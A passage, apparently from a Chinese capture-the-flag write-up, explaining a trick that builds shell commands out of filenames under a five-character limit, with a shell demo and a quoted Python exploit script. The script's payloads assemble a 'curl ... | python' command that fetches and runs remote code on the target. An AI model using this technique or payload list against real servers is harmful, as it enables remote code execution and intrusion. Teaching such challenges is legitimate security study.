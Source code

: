```
root@iZ285ei82c1Z:~/test# echo 1
1
root@iZ285ei82c1Z:~/test# >\ 1\\
root@iZ285ei82c1Z:~/test# >ho\\
root@iZ285ei82c1Z:~/test# >ec\\
root@iZ285ei82c1Z:~/test# ls
 1\  ec\  ho\
root@iZ285ei82c1Z:~/test# ls -t
ec\  ho\   1\
root@iZ285ei82c1Z:~/test# ls -t>g
root@iZ285ei82c1Z:~/test# sh g
g: 1: g: g: not found
1
```

尽管报错了，但是还是执行了命令，需要注意的问题就是ls的结果是根据字母排序来，我们需要让ls使用-t指令来按照时间排序，才能获得我们想要的顺序。

那么回到题目，由于只有5位，我们没办法使用`ls -t>g`，那么我们首先遇到构造这样一条命令。

我们来看看orange给出的官方wp
```
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl orange.tw.tw>python`
    # curl shell.0xb.pw|python
    '>on', 
    '>th\\', 
    '>py\\',
    '>\|\\', 
    '>pw\\', 
    '>x.\\',
    '>xx\\', 
    '>l.\\', 
    '>el\\', 
    '>sh\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # exec
    'sh _', 
    'sh g', 
]



r = requests.get('http://xxx/web1.php/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://xxx/web1.php/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```
